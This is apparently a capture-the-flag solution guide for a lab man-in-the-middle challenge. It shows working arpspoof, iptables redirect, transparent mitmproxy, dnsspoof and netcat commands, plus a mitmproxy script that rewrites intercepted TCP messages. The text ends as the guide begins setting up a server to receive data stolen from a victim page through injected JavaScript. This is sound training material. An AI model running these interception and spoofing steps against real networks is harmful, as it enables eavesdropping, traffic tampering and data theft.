# Monkey in the Middle

*Solution Guide*

## Overview

In Monkey in the Middle, the team is tasked with exploiting their access to a local network to perform a variety of Man-in-the-Middle style attacks, using `arpspoof`, `dnsspoof`, `mitmproxy`, and other tools. The challenge culminates in using these techniques to inject malicious JavaScript into an HTTP request and stealing a cookie labelled `SameSite: Strict`.

## Question 1

*Intercept the token sent by `mathclient.pccc` to `mathserver.pccc` on port `9000`.*

Before we do begin, we should first take care of the hint from the instructor in the challenge description: "The instructor reminds you that forwarding is enabled by default on the device". If we don't disable forwarding, some of the tokens will still work, but most will not as the OS will forward the packets before we can successfully intercept them. Run this command to disable forwarding: `sudo iptables -P FORWARD DROP`.

For this first token, we need to eavesdrop on traffic coming from the host `mathclient.pccc` addressed for `mathserver.pccc`. This traffic is not broadcast, and traffic is not otherwise being forwarded to our host, so we cannot see that traffic at the moment.

We can place ourselves in the traffic path by corrupting the Address Resolution Protocol (ARP) table of the `mathclient.pccc` host. ARP is a protocol used to map IP addresses (used for identifying devices across networks) to MAC addresses (used for identifying devices within a local network). During an ARP lookup, a host sends out a "Who has" message containing an IP address and another device (usually the device assigned the IP or the gateway) will then reply with the MAC address of the device assigned that IP. 

We can use the tool `arpspoof` to corrupt the ARP table. The `arpspoof` command sends out many fraudulent ARP responses with our MAC address and a given IP address, causing the target to update their ARP table and map the target IP address to our MAC address. When the victim then tries to connect to the IP address normally, the computer will end up addressing the traffic to our device's MAC.

Let's use `arpspoof` to trick `mathclient.pccc` into sending their data to us. We can run it with `sudo arpspoof -i {interface} -t {VICTIM} {HOST_WE_WANT_TO_BE}`, so in this case we will run `sudo arpspoof -i eth1 -t mathclient.pccc mathserver.pccc`. This makes `mathclient.pccc` think we are `mathserver.pccc`. Note that if you get a "couldn't arp for..." error message, that means the interface is incorrect; try `eth0` instead, or use `ip a` and ` mathclient.pccc` to determine which interface was assigned to the subnet the other containers are on.



The `arpspoof` command will now continuously send out the forged ARP replies. With this program running in the background, open a new terminal window, and run `sudo wireshark`. We will use Wireshark to inspect any of the incoming packets. In the window that opens, select `eth1` as the interface to capture on.


With Wireshark capturing, we can first use the filter `arp` to confirm that our ARP messages are indeed going to the target.


However, what we really want to see is incoming packets from `mathclient.pccc`, which we can see using the filter `ip.addr == {IP_ADDR}`, using either our Kali IP or the IP from `mathclient.pccc`. In the example below, we use `ip.addr == 10.0.67.2`.



Taking a look at this traffic, we can see something is wrong. The device sends a normal TCP packet (e.g., in the picture, packets 1, 8, 21, etc.). Those packets are then followed up by several retransmissions of the same packet. TCP first performs a 3-way handshake to establish a connection before sending any data. This means we need the initial connection to be successful. There are a few ways to accomplish this (e.g., enabling packet forwarding), but we will instead set up a TCP proxy using the command `mitmproxy`, as we will need that in the future. Go ahead and close Wireshark for now, and return to the terminal (although leave your terminal running `arpspoof` alone).

The command `mitmproxy` allows us to observe and forward along any incoming connections by acting as a proxy between the two hosts. Mapped out, it would look like `mathclient.pccc -> mitmproxy (us) -> mathserver.pccc`. This allows the connection to complete. 

By default, the `mitmproxy` listens for incoming packets on port `8080`; any packets we want to pass through `mitmproxy` need to be redirected to port `8080` to be correctly forwarded along (and later, manipulated). We can set this redirection up using `iptables`, a command used to set packet filtering rules. The following command will perform the redirection we need this time, which is mapping port `9000` to port `8080`.

```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 9000 -j REDIRECT --to-port 8080
```

<details>
<summary>What do all these flags mean?</summary>

- `-t nat`: This means we are changing the `Network Address Resolution` table of rules
- `-A PREROUTING`: This means the rule should be applied before any routing is done
- `-p tcp`: This means the rule is targeting only TCP packets
- `--dport 9000`: This means the rule is targeting only packets destined for port 9000
- `-j REDIRECT`: This specifies the action that should be taken; in this case, `REDIRECT`, which means to address it to a local port on this machine
- `--to-port 8080`: This is the local port that the packet should be redirected to

Reading that all together, we are saying "Before making any other routing decisions, incoming TCP packets to port `9000` should be redirected to port `8080` on our machine."

</details>

With that redirect set up, we can run `mitmproxy` using `sudo mitmproxy --mode transparent`. Note the transparent mode is used so that the proxy will intercept the traffic without needing the client (`mathclient.pccc` for us) to explicitly configure it as a proxy. This is ideal for our scenario, where we have used `arpspoof` to redirect their traffic without their knowledge.

When run, `mitmproxy` will present a unique terminal interface (somewhat similar to like `vim` or `nano`) showing all of the current TCP flows (a flow meaning one uninterrupted communication channel between two hosts). Note the command `mitmweb` may also be available to view the flows in a web browser, but I believe it's still in beta, and I haven't used it before; we don't need to do much, so we will stick to the CLI for now, but feel free to give it a try if you like.


The CLI can be seen above. The window lists the time, IPs and ports, size, and delay for each TCP flow. Note the `>>` simple on the left by one of these lines. This indicates that flow is currently selected. You can use the up/down arrow keys and hit enter to a select a specific flow (alternatively, you can also click on a line to select). 



With a flow selected, you'll be given two or more tabs containing more data about the flow. In this case, we have the `TCP Stream` tab, showing the data going from the connection initiator (client) to the connection receiver (server) with a blue arrow, and the other direction with a red arrow. The left/right arrow keys can be used to switch between these tabs.

Inspecting our `TCP Stream` tab, we can see the client has sent the eavesdropping token in their first packet! Note it's a little more finicky than usual, but you can hold down shift, then drag your mouse to select text, then press `CTRL+SHIFT+C` to copy the token (be sure to double-check it is copied correctly, as I found it difficult to get the last character selected too).

### Answer

In this case, the token was `PCCC{Ugh_Math_Homework_09_32QQ}`.

## Question 2

*The `mathserver.pccc` will send this token when all of the math questions passed between `mathclient.pccc` and `mathserver.pccc` are answered correctly.*

Question 2 builds off of Question 1, so we will continue where that one left off. When inspecting the TCP flows in `mitmproxy`, we saw the token, but the next message was something like the following:

```none
91ef9f9e9603781ce2849bec6773370b920e0368f2395b09cd57c399da1b3249,1749698336424,2566 - 29 is 6725
```

We see the sections separated by commas, with the third section being a simple arithmetic expression, but the answer is wrong (if you are quite perceptive, you might also notice the second number is a timestamp). Flipping through the various flows using the `p` and spacebar keys, you can see that third section always follows this format: `{number} {+ - or *} {number} is {wrong answer}`. These are the math questions we need to fix.

<details>
<summary>What about section one and two?</summary>

The format is `{hash},{nonce},{expression}`.

The first string is a `sha256` hash of a secret key, a nonce (number used only once), and the operands used in the expression. This is to 1) verify the message comes from either `mathclient.pccc`/`mathserver.pccc`, 2) prevent messages from being replayed, and 3) prevent the operands from being modified.

The second string is the nonce, which is the current time in milliseconds. The nonce ensures a message is unique by 1) ensuring the packet arrives in a reasonable time frame and 2) checking a list of already used nonces in that time frame.

To be exact, the functions are:

```python
def generate_nonce() -> str:
    return str(int(time.time() * 1000))

def compute_ticket(nonce: str, key: str = SHARED_KEY, a: str = "", b: str = "") -> str:
    message = f"{nonce}:{a}:{b}"
    return hmac.new(key.encode(), message.encode(), hashlib.sha256).hexdigest()
```

Note that the operand is actually unprotected! If you wanted to, you could change all operations to `+`, but you'd still have to compute the actual addition.

</details>

The `mitmproxy` allows us to provide a Python script to modify the TCP flow data. The following Python script (also available [here](./scripts/mitmMath.py)) shows one way of doing this by defining the `tcp_message` that `mitmproxy` will call for each flow, and modifying the message content.

```python
from mitmproxy import tcp
import re

def tcp_message(flow: tcp.TCPFlow):
    messages = flow.messages
    for message in messages:
        if message.content:
            try:
                text = message.content.decode()
                # Split message into three sections by comma
                parts = text.split(",", 2)
                if len(parts) != 3 or " is " not in parts[2]:
                    continue # Not a packet we want to modify

                # Use regex to pull out the operands and operators
                expr = parts[2]
                match = re.match(r"^(\d+)\s*([+\-*])\s*(\d+)\s+is\s+\d+$", expr.strip())
                if not match:
                    continue # Not a packet we want to modify

                a, op, b = match.groups()
                a, b = int(a), int(b)
                if op == "+":
                    val = a + b
                elif op == "-":
                    val = a - b
                elif op == "*":
                    val = a * b
                else:
                    continue # Unknown expression, shouldn't ever be reached

                new_expr = f"{a} {op} {b} is {val}"  # Recreate expression with right answer
                new_msg = f"{parts[0]},{parts[1]},{new_expr}"  # Rebuild the whole message with new answer
                message.content = new_msg.encode()  # Change the data
            except Exception as e:
                # Just ignore errors for now
                continue
```

Copy and paste this script into the `mitmMath.py` file on your Kali machine. With the file saved, close the currently running `mitmproxy` by hitting `q` (twice if you currently have a flow open) and then `y` when asked if you want to quit, and rerun it with the script.

```bash
sudo mitmproxy --mode transparent -s mitmMath.py
```

Let the script run for a few seconds, then check some of the flows. You should see something similar to the following.



Note that the menu at the bottom now says "scripts:1". Now select a flow, and look at the new lengthy conversation between the two.



The client and server go back and forth for many (about 50) messages. Using the down arrow keys (or hit the `END` key), navigate down to the end of the conversation.



The server sends the token as the final message.

### Answer

In this case, the token was `PCCC{Academic_dishonesty_87_54PI}`.

## Question 3

*Intercept the `DNS` request from `dnsvictim.pccc` and find this token in the first label of the domain name.*
  
*This token uses the alternative format `PCCC-some-words-here` to be a valid domain name*

For our next token, we need to eavesdrop on a DNS request that `dnsvictim.pccc` makes. 

Unlike with Question 1, where we needed to eavesdrop on TCP packets, DNS uses UDP. UDP packets do not open a communication tunnel like TCP; the host simply sends the packet with the data and forgets about it. This means we can do what we originally tried for Question 1, and it should work.  Open up two terminals, and run `arpspoof` in one of them, and `wireshark` in the other. Our `arpspoof` command should target `dnsvictim.pccc`, and we want to masquerade as `dnsmasq.pccc`.

```bash
sudo arpspoof -t dnsvictim.pccc dnsmasq.pccc -i eth1
```

```bash
sudo wireshark
```

With both commands running, use Wireshark to capture on interface `eth1`. Use the filter `dns` to only return DNS packets.



Unlike before, we can know see the incoming request, and the domain name that `dnsvictim.pccc` wants to map to an IP address. Note you can copy the value by right clicking on the name and selecting `Copy > Value`. Note you'll need to remove the `target.pccc`.



### Answer 

In this case, the token was `PCCC-Domain-Name-Simian-19-20Ae`.

## Question 4

*After a successful `DNS` lookup, the `dnsvictim.pccc` host tries to send this token to port `9001` at `{token3}.target.pccc`*

To obtain the next token, we now need to respond to the DNS request with our IP address. DNS is, at a high-level, comparable to ARP; it translates domain names into IPs. However, unlike ARP, DNS takes a few more precautions such as only recording the first response received, and checking specific flag values. If we simply tried to send fake DNS responses to `dnsvictim.pccc`, we wouldn't get very far. The `dnsvictim.pccc` is also not broadcasting the request, so we can't just listen and try to respond faster than the real DNS server (which is a hard to win race condition).

Instead, we will use our `arpspoof` technique from Question 3 so that the DNS requests come directly to us, and we can reply to them directly using the tool `dnsspoof`. First, if you don't still have it running from Question 3, run `arpspoof` with

```bash
sudo arpspoof -t dnsvictim.pccc dnsmasq.pccc -i eth1
```

Next, let's grab our own IP address. This is in the `inet` field output from this command:

```bash
ifconfig eth1
```

Now we need to set up `dnsspoof`. We first need to create a host file that maps a domain to an IP address. The first label (section separated by dots in the domain name) is our token from Question 3. In my case, the token was `PCCC-Domain-Name-Simian-19-20Ae`. Your `spoof.hosts` file should look like similar to this using your IP address and token value.

```none
10.0.67.9 PCCC-Domain-Name-Simian-19-20Ae.target.pccc
```

You can use the command `echo "10.0.67.9 PCCC-Domain-Name-Simian-19-20Ae.target.pccc" > spoof.hosts`, filling in your own token and IP, to easily create a `spoof.hosts` file. Now we are ready to run `dnsspoof` (make sure `arpspoof` is still running).

```bash
sudo dnsspoof -f spoof.hosts -i eth1
```



We can see `dnsspoof` is now responding to the request with our IP address. However, there is no token just yet. We now need to open a listener on port `9001` to actually retrieve the token. Open another terminal (leaving both `arpspoof` and `dnsspoof` running), and run netcat with `nc -lkvp 9001`.



#### Note:
If you didn't disable forwarding as instructed in the initial instructions, do that now:

```bash
sudo iptables -P FORWARD DROP
```

### Answer

In this case, the token was `PCCC{Not_the_DNS_U_R_looking_4_72_12nj}`.

## Question 5

*This token is in the header of the `HTTP` request sent by `webvictim.pccc`*

Alright, back to eavesdropping on TCP packets for Question 5. This will also be very similar to Question 1 as we build up to the final tasks in this challenge. The steps to recreate are:

1. Reroute packets to `mitmproxy` on port `8080`. Since we are working with `HTTP`, the destination port will be `80`.
2. Run `arpspoof` with the new IP addresses for `webvictim.pccc` and `web.pccc`.
3. Start `mitmproxy` with no script.

Note the following set of instructions run `arpspoof` in the background and redirect its stderr to `/dev/null` so you can run all these commands in the same terminal. You can run `sudo whoami` or any other command before you copy-paste these commands to run them without prompting for the password (`sudo` remembers you're authorized for a few minutes).

```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo arpspoof -i eth1 -t webvictim.pccc web.pccc 2>/dev/null &
mitmproxy --mode transparent
```



Unlike before, we can now see these flows are marked as `HTTP` flows, and the delay is much longer between packets since the `webVictim.pccc` is supposed to be a person. Select one of the flows now.

Unlike before, we now have three tabs, which are specific for `HTTP`. However, the token can already be seen in the first tab stored in the `User-Agent`.



### Answer

In this case, the token was `PCCC{Header_Thieving_Time_Protocol_78_41yf}`.

## Question 6

*The `webvictim.pccc` types this token into the `textarea` on the page retrieved from `web.pccc`*

Just like with our previous questions, we now need to modify the request we are eavesdropping on. However, this one won't be quite so simple. First, let's check out the `web.pccc` page in our browser to see what we are working with.


It's a very simple HTML page; it simply contains a single `textarea` that we can type into. When the `webvictim.pccc` receives this HTML, it will type the token into the box. This value, however, is never sent over the wire, so there is no way to get access to it currently.

However, since we are intercepting this request, we can modify the file in whatever way we want using `mitmproxy`. The simplest solution would be to inject some simple JavaScript that waits a few seconds, and then sends the data to us. There are many other ways to go about it, but they will all involve injecting at least some JavaScript (even injecting an HTML form should require at least some JavaScript).

We can try developing the JavaScript in our own browser, but first let's set up a web server using Python so we have somewhere to send the stolen data. This can be done easily using the built in `http.server` module. Run `python -m http.server` in a terminal; it should open a web server on port `8000`. With that running, let's see if we can get JavaScript to send data to it. First, type something into the box, and then open the web console (the easiest way to do this is to right click on the page, select inspect elements, then switch to the tab that says `console` in the new window).

